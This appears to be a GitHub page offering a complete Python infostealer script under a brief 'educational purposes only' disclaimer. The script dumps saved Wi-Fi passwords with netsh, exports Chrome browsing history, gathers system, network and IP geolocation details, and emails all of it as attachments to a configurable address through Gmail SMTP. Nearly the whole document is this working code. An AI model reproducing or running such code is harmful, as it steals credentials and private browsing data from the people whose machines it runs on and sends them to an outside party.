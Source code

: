 # fetching-data-from-a-pc-device-using-python
*#warning :
this code is for educational pruposes only
you can test it in your devices but not in others device 
or you will be behind the bars
*#the full code :

        import smtplib
        from email.mime.multipart import MIMEMultipart
        from email.mime.text import MIMEText
        from email.mime.application import MIMEApplication
        import socket
        import os
        import sqlite3
        from datetime import datetime
        import platform
        import psutil
        import subprocess
        import re
        import shutil
        import requests


        def get_ip_addresses():
            try:
                # Fetch public IP address
                public_ip = requests.get('https://api.ipify.org').text
            except Exception as e:
                public_ip = "Error fetching public IP: " + str(e)

            try:
                # Get local IP address
                hostname = socket.gethostname()
                local_ip = socket.gethostbyname(hostname)
            except Exception as e:
                local_ip = "Error fetching local IP: " + str(e)

            return public_ip, local_ip

        # Usage
        public_ip, local_ip = get_ip_addresses()


        def get_ip_info(ip_address):
            url = f"https://ipinfo.io/{ip_address}/json"
            response = requests.get(url)
            data = response.json()
            return data

        ip_address = public_ip  # Example IP address, you can replace it with any IP address you want to lookup
        ip_info = get_ip_info(ip_address)

        def get_wifi_passwords():
            try:
                result = subprocess.check_output(['netsh', 'wlan', 'show', 'profiles']).decode('utf-8').split('\n')
                profiles = [line.split(":")[1][1:-1] for line in result if "All User Profile" in line]
                passwords = dict()

                for profile in profiles:
                    try:
                        password_result = subprocess.check_output(['netsh', 'wlan', 'show', 'profile', profile, 'key=clear']).decode('utf-8').split('\n')
                        password = [line.split(":")[1][1:-1] for line in password_result if "Key Content" in line][0]
                        passwords[profile] = password
                    except subprocess.CalledProcessError as e:
                        passwords[profile] = "Password not found"
                
                return passwords

            except Exception as e:
                return f"Error: {e}"


        def save_to_file(data, filename):
            try:
                with open(filename, 'w') as f:
                    for profile, password in data.items():
                        f.write(f"WiFi Network: {profile}, Password: {password}\n")
                return f"Data saved to {filename} successfully."
            except Exception as e:
                return f"Error saving data to file: {e}"

        # Example usage
        wifi_passwords = get_wifi_passwords()
        save_result = save_to_file(wifi_passwords, r'wifi_pass.txt')


        def get_chrome_history(output_file=r'history_chrome.txt'):
            # Chrome history database path
            history_db_path = os.path.expanduser("~") + r"\AppData\Local\Google\Chrome\User Data\Default\History"
            
            # Copying the history database file to avoid potential conflicts while Chrome is running
            try:
                tmp_history_db_path = r"History_tmp"
                shutil.copy2(history_db_path, tmp_history_db_path)
            except Exception as e:
                return f"Error copying history database: {e}"
            
            try:
                # Connect to the copied history database
                conn = sqlite3.connect(tmp_history_db_path)
                cursor = conn.cursor()
                
                # Query to select history data
                query = "SELECT title, url, last_visit_time FROM urls ORDER BY last_visit_time DESC"
                cursor.execute(query)
                
                # Fetch all rows
                rows = cursor.fetchall()
                
                # Write history data to output file
                with open(output_file, "w", encoding="utf-8") as f:
                    for row in rows:
                        f.write(f"Title: {row[0]}\nURL: {row[1]}\nLast Visit Time: {row[2]}\n\n")
                
                return f"Chrome history successfully exported to {output_file}"
            
            except Exception as e:
                return f"Error accessing Chrome history: {e}"
            
            finally:
                # Close database connection and remove temporary file
                conn.close()
                os.remove(tmp_history_db_path)

        # Example usage
        result = get_chrome_history()


        def get_system():
            system_platform = platform.platform()

            # Get system architecture (32-bit or 64-bit)
            system_architecture = platform.architecture()

            # Get CPU information
            cpu_info = platform.processor()

            # Get total and available memory
            memory_info = psutil.virtual_memory()
            total_memory = memory_info.total
            available_memory = memory_info.available

            # Get disk usage information
            disk_usage = psutil.disk_usage('/')
            total_disk_space = disk_usage.total
            used_disk_space = disk_usage.used
            free_disk_space = disk_usage.free

            # Get network information
            network_info = psutil.net_if_addrs()

            # Get battery information (if available)
            battery_info = psutil.sensors_battery()
            if battery_info is not None:
                battery_percentage = battery_info.percent
                power_plugged = battery_info.power_plugged

            # Write system information to a text file
            output_files = [r"system_information.txt"]
            for file_name in output_files:
                with open(file_name, "w", encoding="utf-8") as file:
                        file.write("System Information:\n")
                        file.write(f"System Platform: {system_platform}\n")
                        file.write(f"System Architecture: {system_architecture}\n")
                        file.write(f"CPU: {cpu_info}\n")
                        file.write(f"Total Memory: {total_memory}\n")
                        file.write(f"Available Memory: {available_memory}\n")
                        file.write(f"Total Disk Space: {total_disk_space}\n")
                        file.write(f"Used Disk Space: {used_disk_space}\n")
                        file.write(f"Free Disk Space: {free_disk_space}\n")

                        file.write("Network Interfaces:\n")
                        for interface, addresses in network_info.items():
                            file.write(f"Interface: {interface}\n")
                            for address in addresses:
                                file.write(f"- Address: {address.address}, Netmask: {address.netmask}, Broadcast: {address.broadcast}\n")

                        if battery_info is not None:
                            file.write("Battery Information:\n")
                            file.write(f"Battery Percentage: {battery_percentage}\n")
                            file.write(f"Power Plugged In: {power_plugged}\n")

                

        get_system()       
            
        sender_email = ''
        receiver_email = ''
        sender_password = ''


        def send_files_with_body(filepaths, body, sender_email, receiver_email, password):
            # Email configuration

            # Create a multipart message
            message = MIMEMultipart()
            message["From"] = sender_email
            message["To"] = receiver_email
            message["Subject"] = "Files Attachment"

            # Attach body to email
            message.attach(MIMEText(body, "plain"))

            # Attach files to the email
            for filepath in filepaths:
                with open(filepath, "rb") as f:
                    attachment = MIMEApplication(f.read(), _subtype="txt")
                    attachment.add_header('Content-Disposition', 'attachment', filename=os.path.basename(filepath))
                    message.attach(attachment)

            # Establish a connection with the SMTP server
            with smtplib.SMTP("smtp.gmail.com", 587) as server:
                server.starttls()  # Secure the connection
                # Login to your email account
                server.login(sender_email, password)
                # Send the email
                server.sendmail(sender_email, receiver_email, message.as_string())

        # Example usage
        file_paths = [r"wifi_pass.txt", r"history_chrome.txt", r"system_information.txt"]

        # Constructing email body
        email_body = (
            "- IP Addresses [public = " + str(public_ip) + ", local = " + str(local_ip) + "]\n"
            "This email contains attachments:\n"
            "- WiFi Passwords: wifi_pass.txt\n"
            "- Chrome History: chrome_history.txt\n"
            "- System Information: system_information.txt\n"
            "- ip info : " + str(ip_info) + "\n"
        )
        send_files_with_body(file_paths, email_body, sender_email, receiver_email, sender_password)

